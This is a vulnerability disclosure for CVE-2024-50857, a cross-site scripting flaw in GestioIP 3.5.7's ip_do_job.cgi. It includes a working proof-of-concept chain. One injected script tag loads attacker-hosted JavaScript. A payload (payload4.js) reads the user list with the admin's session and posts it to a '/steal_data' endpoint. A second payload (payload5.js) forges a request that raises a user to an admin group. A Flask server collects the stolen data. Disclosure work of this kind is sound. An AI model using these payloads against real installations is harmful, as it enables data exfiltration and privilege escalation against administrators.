


CVE-2024-50857. GestioIP Vulnerability: XSS
Auth. Cross-Site Scripting
609 … ⏲ Reading Time: 2 Minutes, 46 Seconds
2024-11-25 12:28 -0300
Information
Description: The "ip_do_job" request is vulnerable to XSS (Cross-Site Scripting), allowing data exfiltration and enabling CSRF (Cross-Site Request Forgery) attacks.
Versions Affected: 3.5.7
Proof-of-Concept Exploit
Description
The "ip_do_job" feature of GestioIP 3.5.7 is vulnerable to XSS, leading to data exfiltration and CSRF attacks. Two examples (Case 1 and Case 2) are described below.
Prerequisites
To successfully exploit the XSS vulnerability, the user must be part of a “User Group” that has the following three permissions:
• Show backuped device configurations (read_device_config_perm)
• Upload device configurations (write_device_config_perm)
• Administrate CM (administrative_cm_perm)
These permissions can be assigned to any group via: Manage > User Groups > Configuration Management
 Then select these 3 checkboxes: 
The following groups have these permissions enabled by default for “Configuration Management”:
◇ Admin
◇ GestioIP Admin
Case 1: Data exfiltration
For example, an attacker can use this vulnerability to retrieve the list of users from the GestioIP application. If an administrator visits a malicious URL while authenticated to the application, the XSS payload will be triggered, causing the admin’s browser to perform a GET request to the user list of the GestioIP application. Afterward, the browser will send a POST request to the attacker’s server, exfiltrating the obtained user information.
Usage/Exploitation
To exploit this vulnerability, an attacker must host payload4.js on an attacker-controlled web server (eg. python3 -m http.server 8090) and also a python-flask server to receive the exfiltrated data.
To construct this URL the attacker uses these two parameters:
client_id=1stored_config='<script src="http://10.20.0.1:8090/payload4.js"></script>'
Then, the malicious url is:
Case 2: XSS and CSRF chained
The attacker has obtained a list of users using Case 1. Now the attacker assigns a user he choose the admin role.
Usage/Exploitation
To exploit this vulnerability, an attacker must host payload5.js on an attacker-controlled web server (eg. python3 -m http.server 8090).
To construct this URL the attacker uses these two parameters:
client_id=1stored_config='<script src="http://10.20.0.1:8090/payload5.js"></script>'
Then, the malicious url is:
OBS
host_id is also a vulnerable parameter
http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&host_id=’alert(“test”)'
Using parameter: stored_config
http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config=’alert(“test”)'
Payloads
payload4.js
fetch('http://localhost/gestioip/res/ip_show_user.cgi?client_id=1', {
method: 'GET',
credentials: 'include'
})
.then(response => response.text())
.then(data => {
fetch('http://localhost:8000/steal_data', {
method: 'POST',
body: JSON.stringify({
pageContent: data,
location: window.location.href,
userAgent: navigator.userAgent
}),
headers: {
'Content-Type': 'application/json'
}
});
})
.catch(err => console.error('Error', err));
payload5.js
const data = new URLSearchParams();
data.append('name', 'maxi');
data.append('group_id', '3');
data.append('email', 'maxi@test.com');
data.append('phone', '123');
data.append('comment', '');
data.append('client_id', '1');
data.append('id', '2');
data.append('B2', '');
fetch('http://localhost/gestioip/res/ip_mod_user.cgi', {
method: 'POST',
headers: {
'Content-Type': 'application/x-www-form-urlencoded',
},
body: data
})
.then(response => {
if (!response.ok) {
throw new Error('Network response was not ok ' + response.statusText);
}
return response.text();
})
.then(responseData => {
console.log('Success:', responseData);
})
.catch(error => {
console.error('Error:', error);
});
Flask server
server_flask.py
from flask import Flask, request
from flask_cors import CORS
import json
app = Flask(__name__)
CORS(app) # enables CORS for all routes
@app.route('/steal_data', methods=['POST'])
def steal_data():
data = request.json # data received format: JSON
with open('data_exfiltrated.html', 'a') as f: # open the file in append mode
f.write(json.dumps(data) + '\n') # write data to file
return 'Data received and saved', 200
if __name__ == '__main__':
app.run(host='0.0.0.0', port=8000)